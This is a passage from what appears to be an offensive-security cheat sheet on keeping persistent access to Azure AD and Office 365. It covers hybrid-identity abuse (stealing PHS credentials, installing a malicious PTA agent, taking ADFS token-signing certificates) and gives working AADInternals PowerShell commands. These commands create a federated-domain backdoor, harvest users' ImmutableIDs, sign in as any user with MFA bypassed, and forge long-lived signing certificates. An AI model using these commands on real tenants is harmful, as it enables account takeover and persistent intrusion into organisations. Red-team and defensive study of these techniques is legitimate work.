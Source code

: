 [Impersonating o365 Users avec Mimikatz](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)



## Hybrid Identity - On-Prem to Cloud

Microsoft recommends joining the Azure AD Connect server to the on-prem AD. This has significant implications for security because it means that any persistence mechanisms used for on-prem (such as *Golden Ticket, Silver Ticket, ACL Backdoors, and others*) that provide either Domain Admin (DA) on-prem or local admin on the Azure AD Connect server can be leveraged to gain Global Administrator (GA) access on Azure AD on demand.

**Exploitation Scenarios**

| Method | Action | Impact |
| --- | --- | --- |
| **Password Hash Synchronization (PHS)** | Extract credentials. | With DA on-prem or local admin on the Azure AD Connect server, extract the credentials of the MSOL account used for PHS. |
| **Pass-Through Authentication (PTA)** | Install the PTA agent. | With DA on-prem or local admin on the Azure AD Connect server, install a malicious PTA agent to verify authentications for any synced user, bypassing the need for the correct password. |
| **Federation** | Extract the token-signing certificate from the ADFS server. | With DA on-prem, extract the ADFS token-signing certificate, allowing the creation of valid SAML tokens to authenticate as any user in Azure AD. |



## Federation - Trusted Domain

> Backdoor Access with Global Administrator Privileges

If we have Global Administrator (GA) privileges on a tenant, we can add a new domain (must be verified), configure its authentication type to Federated, and configure the domain to trust a specific certificate (`any.sts` in the below command) and issuer. 

Using AADInternals:
```powershell
ConvertTo-AADIntBackdoor -DomainName cyberranges.io
```

Get the `ImmutableID` of the user that we want to impersonate. Using the Msol module:
```powershell
Get-MsolUser | select userPrincipalName,ImmutableID
```

Access any cloud app as the user:
```powershell
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true
```

## Federation - Token Signing Certificate

With Domain Admin (DA) privileges on an on-prem AD, it is possible to create and import new Token Signing and Token Decryption certificates that have a very long validity. This allows us to log in as any user whose `ImmutableID` we know.

1. Run the below command as DA on the ADFS server(s) to create new certificates (default password 'AADInternals'), add them to ADFS, disable auto rollover, and restart the service:
```powershell
New-AADIntADFSSelfSignedCertificates
```
